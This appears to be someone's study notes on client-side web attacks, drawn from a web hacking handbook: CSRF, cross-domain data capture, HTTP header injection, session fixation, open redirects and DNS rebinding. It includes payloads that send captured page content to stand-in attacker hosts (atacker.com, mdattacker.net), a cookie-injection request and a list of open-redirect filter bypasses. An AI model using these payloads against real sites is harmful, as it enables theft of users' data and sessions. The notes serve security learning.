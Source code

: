 # Attacking Users: Other Techniques
# Inducing User Actions:

# Request Forgery
- in this type of attack, attacker does not need to know the session token of the victim, he just visit some website, the malicious website initiate request for victim and without knowing of user, the changes had been done in their logged in session

## On-site Request forgery (OSRF)

## Cross-Site-Request-Forgery (CSRF)
### Exploiting CSRF Flow
#### HACK STEP
  1. Review the Key functionality within the application, as identified in application mapping exercise
  2. Find an application function that can be used to perform some sensitive action on behalf of an unwitting user, that relies solely on cookies for tracking user session, and that employes request parameter that an attacker can fully determine in advance , that is, that do not contain any other token or unpredictable items
  3. Create HTML page that issues the desired request without any user interaction, For `Request` we place `<img>` tag with `SRC` attribute set to the vulnerable URL, for `POST` request we can create  a form that contains hidden fields for all the relevent parameters required for the attack and that has its target set to the vulnerability URL,we use JavaScript for Auto submit the form

### Authentication and CSRF

# Capturing Data Cross-Domain (CORS)
- malicious website can read the response of other website that victim have accessed

## Capturing Data By injecting HTML
- if attacker found HTMLI, he craft injection liket
- `<img src='https://atacker.com/capture?html=` and dont close tag, so if this reflected in response, the other response of the user that may contain sensitive info, is got to attacker application, until valid closing `'` not found.

## Capturing Data by CSS 
- `{}*{font-family:'` payload that we send
- some browsers allow response to be loaded as CSS stylesheet and happily process any CSS definitions 
- since to exploit this behavior we need to host the CSS file in our server and make request to them
- attacker host following file
```css
<link rel=”stylesheet” href=”https://wahh-mail.com/inbox” type=”text/
css”>
<script>
document.write(‘<img src=”http://mdattacker.net/capture?’ +
escape(document.body.currentStyle.fontFamily) + ‘”>’);
</script>
```

# Other Client side Vulnerabilities
## HTTP Header Injection
`probe using new line char '%0a' and '%0d' and addsome value so it may be returned in the respone of the application `

### Injecting Cookies
- construct URL that set arbitrary cookie within the browser of any user who request it
```js
GET /settings/12/Default.aspx?Language=English%0d%0aSet-
Cookie:+SessId%3d120a12f98e8; HTTP/1.1
Host: mdsec.net

HTTP/1.1 200 OK
Set-Cookie: PreferredLanguage=English
Set-Cookie: SessId=120a12f98e8;
```

## Session Fixation
1. attacker request login and is issued a session token
2. attacker feeds the session token to user
3. user logs in using token and received from the attacker 
4. attacker hijack user's session using the same token as the user

## OPEN Redirection Vuln
- it arise when application use user input to redirect to its application
### Finding and Exploiting Open Redirection 
- HTTP 3XX  and Location header specifying target of redirect
- HTTP `Refresh` header can be used to reload page with arbitrary URL after a Fixed interval, which may be `0` to trigger immediate redirect
	- `Refresh: 0; url=http://hello.com`
- HTML `<meta>` tag can be used  to replicate the behavior of any HTTP header 
	- `<meta http-equiv="refresh" content="0; url=http://hello.com">`
- various APi within JS `document.location='http://hello.com';`

### Blocking of Absolute URLs
- application may check whether user-supplied string start with `http://` and ifso, block the request.
- Bypass
```js
- HtTp://mdattacker.net
- %00http://mdattacker.net
- http://mdattacker.net
- //mdattacker.net
- %68%74%74%70%3a%2f%2fmdattacker.net
- %2568%2574%2574%2570%253a%252f%252fmdattacker.net
- https://mdattacker.net
- http:\\mdattacker.net
- http:///mdattacker.net
- http://http://mdattacker.net
- http://mdattacker.net/http://mdattacker.net
- hthttp://tp://mdattacker.net
- http://mdsec.net.mdattacker.net
- http://mdattacker.net/?http://mdsec.net
- http://mdattacker.net/%23http://mdsec.net
```


# Attacking Browsers
- the browser hacker's handbook

# DNS Rebinding
- technique that can be used to perform a partial breach of same-Origin restrictions in some situations, enabling a malicious website ti interact with a different domain.
- the attack works as follow
	- The user visits a malicious web page on the attacker’s domain. To retrieve this page, the user’s browser resolves the attacker’s domain name to the attacker’s IP address.
	- The attacker’s web page makes Ajax requests back to the attacker’s domain, which is allowed by the same-origin policy. The attacker uses DNS rebinding to cause the browser to resolve the attacker’s domain a second time, and this time the domain name resolves to the IP address of a third-party application, which the attacker is targeting.
	-  Subsequent requests to the attacker’s domain name are sent to the targeted application. Since these are on the same domain as the attacker’s original page, the same-origin policy allows the attacker’s script to retrieve the contents of the responses from the targeted application and send these back to the attacker, possibly on a different attacker controlled domain.




